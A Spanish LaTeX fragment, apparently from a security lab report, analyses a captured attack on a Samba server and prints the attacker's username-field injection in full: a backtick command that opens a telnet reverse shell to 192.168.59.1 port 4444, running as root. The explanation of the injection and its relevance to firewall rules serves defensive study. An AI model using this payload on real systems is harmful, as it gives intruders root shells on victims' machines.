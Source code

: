 \documentclass[a4paper,12pt]{scrartcl}
\begin{document}
\begin{center}
	\includegraphics[width=1\linewidth]{cap6}
	\includegraphics[width=1\linewidth]{cap7}
\end{center}

Vemos que usa en el campo usuario el siguiente texto:

\begin{lstlisting}[breaklines]
/=`nohup sh -c '(sleep 3870|telnet 192.168.59.1 4444|while : ; do sh && break; done 2>&1|telnet 192.168.59.1 4444 >/dev/null 2>&1 &)'`
\end{lstlisting}


Ese usuario introduciría una orden como el usuario que controla Samba para conectar una terminal sh a un servidor de telnet alojado en la máquina atacante puerto 4444. Como samba está controlado por root, la terminal que se ejecuta tiene id=0, permitiendo el nivel máximo de administración. Este fallo estaría clasificado como Injection (aunque no SQL).

\vspace{10pt}

En teoría, uno podría ejecutar cualquier orden a través de estas peticiones, aunque ejecutar una terminal a través de telnet ya ofrece funcionalidad para poder ejecutar lo que haga falta, desde subir nuevos programas usando cat hasta ejecutarlos como root.

\vspace{10pt}

Recordamos que, al igual que con Tomcat, la orden \textbf{telnet 192.168.59.1 4444} inicia la conexión desde la víctima hacia el atacante, punto importante para iptables.

\section{Prevención de ataques}
\end{document}
